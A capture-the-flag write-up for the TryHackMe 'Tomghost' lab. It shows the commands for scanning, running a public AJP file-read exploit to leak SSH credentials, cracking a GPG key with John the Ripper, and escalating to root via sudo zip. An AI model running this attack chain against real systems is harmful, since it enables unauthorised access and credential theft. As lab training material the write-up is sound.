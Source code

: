 ```yaml
---
layout: post
title: "Tomghost"
date: 2022-10-08
categories: [Tryhackme, Easy-THM]
tags: [nmap, gobuster, apache-tomcat, searchsploit, gpg, JTR, GTFObins, zip]
image: ../../assets/img/posts/tomghost.png 

---
```


## Description

Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

|**Room**|[Tomghost](https://tryhackme.com/room/tomghost)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[stuxnet](https://tryhackme.com/p/stuxnet)|

---

Well there's a message from admin,

![image](https://user-images.githubusercontent.com/67465230/187014069-ef7c32b2-3695-4f63-93cb-27390a1b8b82.png)

After deploying the machine, we'll start with nmap scan,

```bash
nmap -sV -oN nmap_scan 10.10.71.72
``` 

![image](https://user-images.githubusercontent.com/67465230/187014077-28d11f98-b5dc-4c49-8bf4-ce71af4e6b3f.png)

We can see that port 22, 53, 8009, 8080 are open.

Let's visit http://10.10.71.72:8080/, 

![image](https://user-images.githubusercontent.com/67465230/187014093-b732eac7-95ce-4ff9-8318-fb8def5c83ac.png)

It's a default apache tomcat webpage. 

Let's brute force the directories using gobuster,

```bash
gobuster dir -u http://10.10.71.72:8080/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt 2>/dev/null
``` 

![image](https://user-images.githubusercontent.com/67465230/187014102-5eba78ef-ad79-4bde-8ec0-bf5200eb3779.png)

Going to all paths leads us to nowhere. So let's do further more enumeration.

After looking at nmap scan again, we found that service AJP is running on port 8009. So let's search it on **searchsploit**, see if we can find anything,

```bash
searchsploit AJP
``` 

![image](https://user-images.githubusercontent.com/67465230/187014108-38532b5f-a6e9-4951-941c-95f0c2ccba7d.png)

and we got file read inclusion vulnerability. 

now let's copy this file to present directory,

```bash
searchsploit -m multiple/webapps/48143.py
``` 

![image](https://user-images.githubusercontent.com/67465230/187014112-35940beb-9b54-492d-8fe2-a2d443983c99.png)

Lets take a look to how to run this exploit,

```bash
python 48143.py
``` 

![image](https://user-images.githubusercontent.com/67465230/187014124-182fc483-f829-45b8-8608-33aa0b5bec67.png)

looks like we have to provide the machine's IP. 

Let's put IP and see what happens,

```bash
python 48143.py 10.10.71.72
``` 

![image](https://user-images.githubusercontent.com/67465230/187014629-f2e27956-fb35-4292-90c9-c67bb9b94406.png)

Seems like these are creds for SSH. Let's confirm by connecting to machine via SSH,

```bash
ssh skyfuck@10.10.71.72
``` 

![image](https://user-images.githubusercontent.com/67465230/187014156-4f5c8810-396f-45ba-9f3f-91ca2b6da185.png)

We got in as Skyfuck user. Let's see what's in directory,

![image](https://user-images.githubusercontent.com/67465230/187014163-cb4c2646-507b-4373-97e0-abc0d3277e8e.png)

wait no user flag? It seems we've to do **lateral privilege escalation** (means we've to elevate privileges to user above Skyfuck, not root) as we have encrypted file and a ASCII armour.

Let's try to import ASCII armour as key,

```bash
gpg --import tryhackme.asc
``` 

![image](https://user-images.githubusercontent.com/67465230/187014176-0880e6b1-29d6-4020-9cbe-66fe70fbc9a8.png)

Now, we should be able to decrypt the credentials, 

```bash
gpg --output cred --decrypt credential.pgp
``` 

![image](https://user-images.githubusercontent.com/67465230/187014223-f7901402-4c4c-4e4d-a98a-1cb26d2d2aab.png)

Okay, we can't get the credentials. So we're going to brute force them. First we'll copy the tryhackme.asc file to our local system

Let's take a look at tryhackme.asc file,

![image](https://user-images.githubusercontent.com/67465230/187014264-3bf19356-3d2e-4cfd-967b-6c514608b51a.png)

we going to convert this asc file into hash using **gpg2john** tool,

```bash
gpg2john tryhackme.asc > tryhackme_asc_hash
```  

file has been converted into hash. Let's take a look at it,

![image](https://user-images.githubusercontent.com/67465230/194693127-25e80457-f894-4faa-9b32-cbe55d8b4225.png)

we're going to crack this hash using JohnTheRipper password cracker tool.

Now type this command to crack the hash,

```bash
john tryhackme_asc_hash --wordlist=/usr/share/wordlists/rockyou.txt
``` 

![image](https://user-images.githubusercontent.com/67465230/187014304-58cb0300-994b-4eaf-868f-5cb396fcf2db.png)

my output is this because I've already cracked this hash before. For any other who crack this hash for the 1st time, they will get the cracked password.

To show the cracked password of the hash type this command,

```bash
john --show tryhackme_asc_hash
``` 

![image](https://user-images.githubusercontent.com/67465230/194693210-3eaac7b7-0fa1-4671-81ad-ae24942a437b.png)

There we've it. Now we're going to decrypt the file to get the creds, 

```bash
gpg --output cred --decrypt credential.pgp
``` 

![image](https://user-images.githubusercontent.com/67465230/187014324-f5d7cb42-72cb-47be-88a0-e1fc997c92f2.png)

and we got the user and password. 

Switching to merlin user,

```bash
su merlin
``` 

![image](https://user-images.githubusercontent.com/67465230/187014354-320d7800-5703-47ac-967c-2c6c0d2bbaf1.png)

we're now merlin user. Let's look for user flag,

![image](https://user-images.githubusercontent.com/67465230/187014358-ef35f2b8-d5b9-4200-814e-745cbad97320.png)

we can see the user.txt file. 

Now comes privilege escalation. First we'll start off with searching for binaries which we can run them as root,

```bash
sudo -l
``` 

![image](https://user-images.githubusercontent.com/67465230/187014371-d8b9ff21-237c-4bf8-8695-baaea8ba1b7d.png)

we can zip binary with sudo command to elevate our privilege to get system shell.

Going to GTFOBins, we get that by running these commands, we'll get the system shell

![image](https://user-images.githubusercontent.com/67465230/187014384-d85159d6-d811-4c51-bf55-1b5020b700d7.png)

by typing these commands, privileges can be escalate,

![image](https://user-images.githubusercontent.com/67465230/187014426-0062f385-2307-4f4c-a968-7e8e91ca7292.png)

we get system shell.
